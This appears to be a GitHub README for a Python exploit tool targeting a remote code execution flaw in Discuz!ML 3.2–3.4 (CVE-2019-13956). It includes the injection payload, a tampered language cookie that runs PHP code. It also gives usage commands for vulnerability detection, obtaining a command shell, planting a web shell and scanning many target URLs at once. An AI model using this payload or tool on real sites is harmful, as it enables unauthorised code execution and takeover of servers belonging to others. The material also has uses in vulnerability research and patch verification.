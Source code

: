 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

`python discuz_mlRce.py -h`<br/>



----------------
**Vulnerability Detection** 

`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" `<br/>

------
**GETTING Command Shell**
<br/>
`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" --cmdshell`<br/>
----------------

**GETTING Shell URL**

`python ddiscuz_mlRce.py -u "http://www.ppp.cn/forum.php" --getshell`

----------------

**Scanning List of URL** 

`python discuz_mlRce.py -f urls.txt`

----------
